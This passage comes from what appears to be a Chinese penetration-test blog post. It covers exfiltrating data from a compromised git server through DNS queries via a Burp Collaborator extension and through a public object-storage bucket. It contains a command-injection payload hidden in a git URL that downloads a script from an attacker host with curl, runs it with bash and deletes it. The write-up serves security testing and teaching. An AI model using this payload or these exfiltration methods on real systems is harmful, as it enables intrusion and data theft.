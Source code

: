 ### DNS 传输数据

我们使用前面构造的 payload，将要执行的脚本写入到 oss 中，然后下载执行。
```
https://github.com/qq;aaa=myvpsip/evil;curl$IFS$aaa$IFS-o/tmp/evil;bash$IFS/tmp/evil;rm$IFS/tmp/evil;test.git
```

这里我们使用 burpsuite 1.7 版本后有的 **Collaborator** 功能，为了更方便的传输数据，我优化了一个 [扩展 Collabfiltrator](https://github.com/Green-m/Collabfiltrator)，[原仓库地址](https://github.com/0xC01DF00D/Collabfiltrator)，感谢原作者的项目，我在他的基础上优化了一些操作和设置，也修改了一些我认为是 bug 的地方。

界面：

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/5.png' | prepend: site.baseurl }})

填入合适的命令，点击 **start poll results** 开始监听收到的 dns 请求，并进行解析和组合，当命令执行完之后，可以点击 stop 来停止监听。

命令类型分为 windows 和 Linux，有 dig, nslookup 和 ping 来发起 dns 请求。

成功获取到命令执行的结果

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/6.png' | prepend: site.baseurl }})

我们通过 dns 获取到所需的信息，如系统环境，配置信息，还有目录等，该进行下一步了。

### 对象存储传输数据

将对象存储的权限设置为公开读写，使用 curl 调用 API 接口将数据写入到对象存储桶中，然后从公网下载回来，成功将所有的 git 服务器数据下载回来，这里就不细说了，payload 都在上面提到了。

## 0xff 后记

其实后面渗透还有 cdn 反弹 shell，横向移动等等操作，限于篇幅和无亮点，这次的博客就差不多到这里，感谢观看。

